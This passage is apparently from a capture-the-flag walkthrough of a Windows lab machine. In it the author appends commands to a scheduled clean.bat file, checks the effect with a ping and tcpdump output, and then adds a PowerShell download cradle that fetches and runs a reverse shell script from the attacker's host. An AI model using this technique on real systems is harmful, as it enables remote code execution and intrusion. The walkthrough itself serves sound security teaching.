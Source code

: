 > COPY NUL EmptyFile.txt
>
> ```

It must be using append permissions to do that.

#### Add POC

With the `exit` gone, I can now add to the payload. I lost a lot of time playing with issues where PowerShell was adding weird characters to the file and it wouldn’t run as a `.bat`. The safest way to do this is with `cmd`, making sure that both the `echo` and the redirection are within `cmd`:

```

PS C:\users\decoder> cmd /c "echo ping 10.10.14.6 >> clean.bat"

```

The next time the minute rolled on Fighter, ICMP packets arrive at my host:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:30:58.618713 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 69, length 40
21:30:58.618768 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 69, length 40
21:30:59.634045 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 70, length 40
21:30:59.634080 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 70, length 40
21:31:00.649225 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 71, length 40
21:31:00.649255 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 71, length 40
21:31:01.667140 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 72, length 40
21:31:01.667176 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 72, length 40

```

#### Reverse Shell

I’ll use the same reverse shell from my webserver, `REV.PS1`. I’ll start by running the `echo` without the redirection to make sure it looks like I want:

```

PS C:\users\decoder> cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1')"
powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1')

```

Now I’ll add it to `clean.bat`:

```

PS C:\users\decoder> cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1') >> clean.bat"

```
